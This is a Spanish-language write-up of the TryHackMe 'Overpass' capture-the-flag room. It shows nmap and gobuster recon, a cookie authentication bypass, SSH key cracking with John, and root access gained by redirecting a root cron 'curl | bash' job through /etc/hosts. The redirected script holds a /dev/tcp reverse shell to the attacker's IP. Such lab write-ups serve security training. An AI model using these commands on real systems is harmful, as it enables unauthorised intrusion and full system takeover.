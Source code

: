 ```yaml
---
layout: single
title: OverPass - TryHackMe
excerpt: " TryHackMe's Overpass room is an easy-level room involving a cookie authentication bypass, John the Ripper, crontabs, and hosts editing to go from an nmap scan to root access on a target machine. "
date: 2022-09-12
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-overpass/overpass.jpeg
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - john
  - crontab
  - ssh
  - python
---
```


TryHackMe's Overpass room is an easy-level room involving a cookie authentication bypass, John the Ripper, crontabs, and hosts editing to go from an nmap scan to root access on a target machine.

# Summary
- IP: 10.10.113.192
- Ports: 22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Golang net/http server

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
```

- Escaneo de directorio de página web:

```bash
$sudo gobuster dir -u 10.10.249.223 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```

- Entramos al directorio "/admin" y nos encontramos con un login, analizamos el código fuente y vemos que hay código javascript, analizamos el archivo "login.js" en búsqueda de vulnerabilidades, y vemos el siguiente fragmento:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

- Por lo que vemos, se está validando el logeo con una simple condicional la cual toma como referencia y modifica la Cookie de sesión, siendo que al indicar una cuenta válida, la cookie se llamará "SessionToke"; sabiendo esto, podemos explotar esto creando una cookie en firefox con el nombre de "SessionToken" y recargando la página, ya estaríamos dentro como admin.


- Dentro de la página de amin vemos un usuario y una private key SSH, la cual intentaremos romper con John:

```bash
$python ssh2john.py rsa_james > hash_james.hash 
```

- Obtenemos la contraseña, accedemos via ssh:

```bash
$ssh -i rsa_james.txt james@10.10.249.223
```

- Obtenemos la primera flag y vemos un archivo todo.txt, lo analizamos y encontramos lo siguiente:

 Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website

- Mencionan una script, buscamos en las tareas automatizadas (crontab) para analizar en qué consiste dicha script:

```bash
cat /etc/crontab
```

- Vemos la tarea: ```root curl overpass.thm/downloads/src/buildscript.sh | bash``` lo cual nos indica que cada cierto tiempo como ROOT está actualizando el código en bash de la script descargando desde la página overpass; comprobamos que tenemos acceso de escritura del archivo /etc/hosts y lo modificamos para que en lugar de accede a la página "overpass.thm" nos redireccione a nuestra máquina atacante:

```
10.18.101.123 localhost
10.18.101.123 overpass-prod
10.18.101.123 overpass.thm
```

- Ahora en nuestra máquina, nos creamos el directorio y archivo /downloads/src/buildscript.sh y le insertamos una reverse shell:

```sh
mkdir /downloads/src/
nano buildscript.sh
```

```bash
bash -i >& /dev/tcp/10.18.101.123/443 0>&1
```

- Nos montamos un servidor http en el puerto 80 en el directorio base de la máquina atacante:

```bash
$sudo python3 -m http.server 80
```

- Nos ponemos en escucha en el puerto 443, esperamos a que la tarea ejecute el comando inyectado y accedemos a la máquina como ROOT.
